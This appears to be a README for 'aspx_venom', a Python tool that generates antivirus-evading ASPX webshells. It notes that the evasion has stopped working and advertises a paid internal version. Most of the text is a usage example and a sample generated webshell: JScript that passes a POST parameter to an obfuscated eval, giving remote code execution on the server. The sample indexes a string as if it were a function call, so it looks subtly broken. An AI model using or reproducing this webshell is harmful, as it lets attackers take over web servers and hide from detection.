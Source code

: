 
# 2019.8.14 已知免杀已失效，获取星球内部版请戳

https://yzddmr6.tk/2019/08/13/webshell-venom-notice/

## 使用方法

`python3 aspx_venom.py`

保存:

`python3 aspx_venom.py >  test.aspx`

生成样例:
```
<%@ Page Language="Jscript" Debug=true%>
<%
var UdIw='hVYFCrBEjfzQsUkdgOReSAKXntawHGiWPvTpqJxmLZbylcuMNDIo';
var YJxe=Request.Form("yzddmr6");
var zIUt=UdIw(13)+UdIw(24)+UdIw(12)+UdIw(21)+UdIw(3)+UdIw(7);
eval(YJxe,zIUt);
%>
```
